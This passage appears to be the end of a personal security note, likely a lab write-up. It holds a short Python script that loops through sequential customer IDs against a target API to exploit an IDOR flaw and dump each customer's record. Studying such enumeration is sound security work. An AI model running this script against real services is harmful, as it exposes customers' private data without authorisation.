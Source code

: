 ```
            "response_desc": "Success"
        }
```


### API_requester.py
```python
import requests

def call_api(target_ip, customer_id):
    endpoint = f"http://{target_ip}/api/?customer_id={customer_id}"
    
    try:
        response = requests.get(endpoint)
        response.raise_for_status()
        data = response.json()
        print(f"\nResponse for customer_id={customer_id}:\n\n{data}\n\n")
    except requests.exceptions.RequestException as e:
        print(f"Error occurred for customer_id={customer_id}: {e}")

def main():
    target_ip = input("Enter the target IP address: ")
    
    try:
        num_ids = int(input("Enter the number of IDs: "))
        for i in range(1, num_ids + 1):
            call_api(target_ip, i)
    except ValueError:
        print("Invalid input. Please enter a valid number of IDs.")

if __name__ == "__main__":
    main()
```








___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: August 4th 2023 (04:27 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
